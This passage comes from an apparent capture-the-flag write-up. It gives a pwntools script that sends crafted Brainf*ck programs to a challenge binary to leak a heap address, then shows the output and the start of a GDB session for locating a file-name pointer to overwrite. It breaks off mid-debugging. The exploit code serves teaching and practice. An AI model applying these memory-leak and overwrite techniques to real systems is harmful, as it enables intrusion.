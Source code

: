 I wrote a script with a Brainf\*ck program that prints the pointer out:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.38.so")

context.binary = exe

if args.REMOTE:
    r = remote("pwn.csaw.io", 9999)
else:
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r)

# Cause some heap allocations for leaking heap address
r.sendlineafter(b'>> ', b'1')  # Create new VM
r.sendlineafter(b' ? ', b'n')  # Disable backups
r.sendlineafter(b'): ', b'A' * 200)  # Long BF program to cause allocations

# Leak heap address
r.sendlineafter(b'>> ', b'2')  # Reuse existing VM
r.sendlineafter(b'>> ', b'1')  # VM index
r.sendlineafter(b' ? ', b'y')  # Enable backups (I don't remember why)
r.sendlineafter(b'): ', b'>' * 0x48 + b'.>' * 8)  # BF program to print pointer
leek = u64(r.recv(8))
log.info(f'{hex(leek)=}')
```

Now we have a heap leak:

<pre><code>[alex@ctf chal]$ ./solve.py
...
[<font color="#26A269"><b>+</b></font>] Starting local process &apos;/home/alex/brainflop/chal/challenge_patched&apos;: pid 2257
[<font color="#0071FF"><b>*</b></font>] hex(leek)=&apos;0x5633f3846330&apos;
</code></pre>

### Overwriting the database file name

I used GDB to find the offset from the tape to the database file name pointer:

<pre><code><font color="#26A269"><b>gef➤  </b></font>b BFTask::run
Breakpoint 1 at <font color="#0071FF">0x563e44046a6f</font>
<font color="#26A269"><b>gef➤  </b></font>c
Continuing.
...
<font color="#A2734C">BFTask::run</font> (<font color="#2AA1B3">this</font>=0x563e44eec560, <font color="#2AA1B3">program</font>=..., <font color="#2AA1B3">deletePreviousState</font>=0x0)
    at <font color="#26A269">challenge.cpp</font>:52
52      <font color="#0071FF"><b>while</b></font> <font color="#C01C28">(</font>instructionPointer <font color="#C01C28">&lt;</font> program<font color="#C01C28">.</font><b>length</b><font color="#C01C28">())</font> <font color="#C01C28">{</font>

